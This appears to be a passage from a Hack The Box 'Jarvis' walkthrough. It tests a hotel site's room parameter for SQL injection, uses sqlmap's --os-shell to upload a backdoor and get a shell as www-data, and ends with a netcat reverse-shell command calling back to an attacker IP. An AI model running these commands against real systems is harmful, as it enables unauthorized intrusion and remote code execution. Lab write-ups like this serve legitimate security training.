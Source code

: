 
Add `supersecurehotel.htb` to /etc/hosts


Browsing the site, the urls for the rooms look like we can test the `cod` variable for sqli.

adding a ' to the url doesn't produce an error, and may mean further testing is necessary.

![sqltest](/assets/img/jarvis/jarvis-sqltest-response.png)

If we're lazy, a quick and easy shell can be gained with sqlmap.

```
sqlmap -u http://10.10.10.143/room.php?cod=1 --os-shell
```


```

[12:04:55] [INFO] the backdoor has been successfully uploaded on '/var/www/html/' - http://10.10.10.143:80/tmpbrdae.php
[12:04:55] [INFO] calling OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> id
do you want to retrieve the command standard output? [Y/n/a] y
command standard output: 'uid=33(www-data) gid=33(www-data) groups=33(www-data)'
os-shell> 

```

a netcat reverse-shell works:

```
nc -nv 10.10.14.7 6969 -e /bin/bash
```
